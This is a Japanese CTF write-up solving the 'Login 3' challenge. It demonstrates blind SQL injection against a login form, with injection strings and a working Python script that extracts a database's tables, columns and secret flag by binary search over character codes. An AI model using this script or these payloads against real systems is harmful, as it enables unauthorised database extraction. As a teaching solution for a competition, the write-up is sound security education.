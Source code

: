 ```yaml
---
title: Login3
description: Blind SQL injection
author: rikuta0811_dash
genre: Web
solver: 9
point: 472
---
```


# Login 3

> 筑紫くんは、これなら情報が流出するはずがないと自信満々です。果たして...
> 
> https://tsukuctf.sechack365.com/problems/login3
>
> ※ この問題では/problems/login3以下のみを用います。 他の問題/problems/<name>などと混同しないよう注意してください。

Login 1 ~ 3がセットでSQL injectionの問題になっています。
Login3では、Blind SQL injection というテクニックが要求されます。

Login 1, 2と同様に、Usernameを ``` ' or 1=1 ; -- ``` としてログインすると、ログインには成功しますが、ユーザー名等は表示されません。したがって、SQL injectionに対して脆弱ではあるものの、injectionしたSQL文の結果を確認することができません。
ここで、Usernameを ``` ' or 1=2 ; -- ```とすると、ログインできませんでしたと表示されます。ということは、```1=1```や```1=2```の部分にbool値をとる式を与えれば、その結果は取得できるということです。これを積み重ねてDB内の情報を抜く手法はBlind SQL injectionと呼ばれます。

information_schemaからの情報取得等の実行したいqueryに対して、「queryの実行結果のi文字目はasciiコードでxより大きいか?」というbool値をとるqueryを送信し、そのbool値を見ることで、2分探索でquery結果を取得していきます。流石に手動で入力するのは面倒くさいので、コードを書くことにします。

```blind.py
def _execAnyQuery_core(query, pos, mid):
    url = "https://tsukuctf.sechack365.com/problems/login3/login.php"
    
    #queryの pos文字目がasciiコードでmidより大きければtrue
    params={
        "name":"' or ascii(substring(({0}),{1},1))>={2} ; -- ".format(query,pos,mid),
        "password":"a"
    }
    page = requests.post(url, data=params)

    return "ようこそ" in page.text

def _execAnyQuery(query, pos):
    """
    2分探索でqueryの実行結果のpos文字目を取得する。
    """
    low = 0
    high = 256
    while high-low>1:
        mid = (high+low)//2
        if _execAnyQuery_core(query, pos, mid):
            low = mid
        else:
            high = mid
    return low
        
def execAnyQuery(query):
    i = 1
    while True:
        char = int(_execAnyQuery(query, i))
        if char==0:
            return
        print(chr(char), end="")
        i+=1
        
execAnyQuery("select version()") 
# >> 8.0.26
```

あとは、login2 と同様にテーブルを取得していきます。

```blind.py
for i in range(100):
    execAnyQuery("select distinct table_name from information_schema.columns limit 1 offset {0}".format(i))
    print()
# urtla_secret_tsukushiというtableがあることがわかる。

for i in range(10):
    execAnyQuery("select distinct column_name from information_schema.columns where table_name = 'urtla_secret_tsukushi' limit 1 offset {0}".format(i))
    print()
 
for i in range(33):
    execAnyQuery("select secret from urtla_secret_tsukushi limit 1 offset {0}".format(i))
# urtla_secret_tsukushiテーブルがidとsecretのカラムを持つことがわかる。
    
for i in range(33):
    execAnyQuery("select secret from urtla_secret_tsukushi limit 1 offset {0}".format(i))
#フラグが表示される。
```

フラグは

```txt
TsukuCTF{U_Are_Geni0us_T$UKUSH1}
```